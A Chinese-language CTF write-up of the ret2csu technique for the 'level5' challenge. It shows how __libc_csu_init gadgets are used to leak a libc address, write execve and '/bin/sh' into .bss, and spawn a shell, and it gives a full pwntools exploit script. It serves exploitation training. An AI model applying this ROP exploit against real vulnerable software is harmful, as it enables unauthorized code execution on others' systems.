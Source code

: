# level5（ctf-wiki）
 __libc_csu_init函数会对libc进行初始化，因此当我们找不到合适的与寄存器相关的gadgets时，我们可以从 __libc_csu_init入手寻找gadgets    
首先使用objdump观察__libc_csu_init  
![](./index_files/1.jpg)  
![](./index_files/2.jpg)  
运行一下程序  
发现是一个简单的输入程序  
![](./index_files/3.jpg)  
调用了read函数读取输入  
那么首先利用pattern找到溢出点  
![](./index_files/4.jpg)  
程序中没有system函数和\bin\sh字符串，所以需要通过输入的方式进行构造  
利用的四个步骤：  
1、通过溢出执行write函数泄露出write函数本身的地址，再跳回到main函数中继续执行。  
2、利用write函数的地址确定对应的libc版本，然后算出execve的位置。    
3、通过溢出执行read函数，将execve与关键字符串写入到bss段中，再跳回到main函数继续执行。  
4、通过溢出执行bss段内的execve函数。  
需要涉及到的知识点  
1、64位程序的前六个参数通过寄存器传递。%rdi，%rsi，%rdx，%rcx，%r8，%r9 用作函数参数，依次对应第1参数，第2参数。。。  
2、read函数可以进行输入，write函数可以进行输出，fd=0为标准输入，df=1为标准输出。  

完整代码  
```
from pwn import *
from LibcSearcher import *
context.terminal = ['gnome-terminal','-x','sh','-c']
level5 = ELF("./level5")
sh = process("./level5")
bss_base = level5.bss()

write_got = level5.got['write']
read_got = level5.got['read']
main_addr = level5.symbols['main']
csu_mov_addr = 0x0000000000400600   #  mov rdx, r13 ;mov rsi, r14 ;mov edi, r15d ;call qword ptr [r12+rbx*8];add rbx, 1;cmp rbx, rbp;jnz hort loc_400600;
csu_pop_addr = 0x000000000040061A    #pop rbx; pop rbp;pop r12;pop r13;pop r14;pop r15;
payload1 = 'a' * 136
payload1 += p64(csu_pop_addr) + p64(0) +p64(1) + p64(write_got) + p64(8) + p64(write_got) + p64(1)
payload1 += p64(csu_mov_addr)
payload1 += 'a' * 56
payload1 += p64(main_addr)
sh.recvuntil('Hello, World\n')
sh.send(payload1)
sleep(1)
write_addr = u64(sh.recv(8))
print hex(write_addr)
libc = LibcSearcher('write',write_addr)
libc_base = write_addr - libc.dump('write')
execve_addr = libc_base + libc.dump('execve')
print hex(execve_addr)

payload2 = 'a' * 136
payload2 += p64(csu_pop_addr) + p64(0) +p64(1) + p64(read_got) + p64(16) + p64(bss_base) + p64(0)
payload2 += p64(csu_mov_addr)
payload2 += 'a' * 56
payload2 += p64(main_addr)
sh.send(payload2)

payload3 = p64(execve_addr) + '/bin/sh\x00'
sh.send(payload3)
sh.recvuntil('Hello, World\n')

payload4 = 'a' * 136
payload4 += p64(csu_pop_addr) + p64(0) +p64(1) + p64(bss_base) + p64(0) + p64(0) + p64(bss_base+8)
payload4 += p64(csu_mov_addr)
payload4 += 'a' * 56
payload4 += p64(main_addr)
sh.send(payload4)
sh.interactive()
```